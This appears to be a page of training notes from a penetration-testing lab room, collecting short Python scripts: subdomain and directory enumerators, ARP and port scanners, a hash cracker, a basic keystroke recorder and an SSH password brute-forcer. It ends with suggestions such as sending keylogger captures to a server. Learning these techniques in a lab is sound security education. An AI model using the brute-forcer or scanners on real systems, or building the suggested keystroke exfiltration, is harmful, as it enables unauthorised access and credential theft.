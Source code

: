 ## __Subdomain.py__

```python
import requests
import sys

sub_list = open("subdomains.txt").read()
subdoms = sub_list.splitlines()

for sub in subdoms:
    sub_domains = f"http://{sub}.{sys.argv[1]}"

    try:
        requests.get(sub_domains)
    except requests.ConnectionError:
        pass
    else:
        print("Valid domain: ",sub_domains)
```

## __Dir.py__

```python
import requests
import sys

sub_list = open("wordlist.txt").read()
directories = sub_list.splitlines()

for dir in directories:
    dir_enum = f"http://{sys.argv[1]}/{dir}.html"
    r = requests.get(dir_enum)
    if r.status_code==404:
        pass
    else:
        print("Valid directory:" ,dir_enum)
```

## __ArpScan.py__

```python
from scapy.all import *

interface = "eth0"
ip_range = "10.10.X.X/24"
broadcastMac = "ff:ff:ff:ff:ff:ff"

packet = Ether(dst=broadcastMac)/ARP(pdst = ip_range)

ans, unans = srp(packet, timeout =2, iface=interface, inter=0.1)

for send,receive in ans:
        print (receive.sprintf(r"%Ether.src% - %ARP.psrc%"))
```

## __PortScanner.py__

```python
import socket
import sys
import pyfiglet

ascii_banner = pyfiglet.figlet_format("Port Scanner")
print(ascii_banner)

ip = '10.10.168.222'
# ip = socket.gethostbyname(host)
open_ports = []

# ports = range(1, 65535)
ports = { 21, 22, 23, 53, 80, 135, 443, 445, 2100}

def probe_port(ip, port, result = 1):
  try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.settimeout(0.5)
    r = sock.connect_ex((ip, port))
    if r == 0:
      result = r
    sock.close()
  except Exception as e:
    pass
  return result

for port in ports:
    sys.stdout.flush()
    response = probe_port(ip, port)
    if response == 0:
        open_ports.append(port)

if open_ports:
  print ("Open Ports are: ")
  print (sorted(open_ports))
else:
  print ("Looks like no ports are open :(")
```

## __FileDownloader.py__

```python
import requests

url = 'https://assets.tryhackme.com/img/THMlogo.png'
r = requests.get(url, allow_redirects=True)
open('THMlogo.png', 'wb').write(r.content)
```

## __HashCracker.py__

```python
import hashlib
import pyfiglet

ascii_banner = pyfiglet.figlet_format("HASH CRACKER")
print(ascii_banner)

wordlist_location = str(input('Enter wordlist file location: '))
hash_input = str(input('Enter hash to be cracked: '))

with open(wordlist_location, 'r') as file:
    for line in file.readlines():
        hash_ob = hashlib.sha256(line.strip().encode()) # hashlib.md5
        # hashlib.md5
        hashed_pass = hash_ob.hexdigest()
        if hashed_pass == hash_input:
            print('Found cleartext password! ' + line.strip())
            exit(0)
```

## __Keylogger.py__

```python
import keyboard
keys = keyboard.record(until ='ENTER')
keyboard.play(keys)
```

## __SshCracker.py__

```python
import paramiko
import sys
import os

target = str(input('Please enter target IP address: '))
username = str(input('Please enter username to bruteforce: '))
password_file = str(input('Please enter location of the password file: '))

def ssh_connect(password, code=0):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        ssh.connect(target, port=22, username=username, password=password)
    except paramiko.AuthenticationException:
        code = 1
    ssh.close()
    return code

with open(password_file, 'r') as file:
    for line in file.readlines():
        password = line.strip()

        try:
            response = ssh_connect(password)

            if response == 0:
                 print('password found: '+ password)
                 exit(0)
            elif response == 1:
                print('no luck')
        except Exception as e:
            print(e)
        pass

input_file.close()
```

Based on what we have covered in this room, here are a few suggestions about how you could expand these tools or start building your own using Python:

- Use DNS requests to enumerate potential subdomains
- Build the keylogger to send the capture keystrokes to a server you built using Python
- Grab the banner of services running on open ports
- Crawl the target website to download .js library files included
- Try to build a Windows executable for each and see if they work as stand-alone applications on a Windows target
- Implement threading in enumeration and brute-forcing scripts to make them run faster
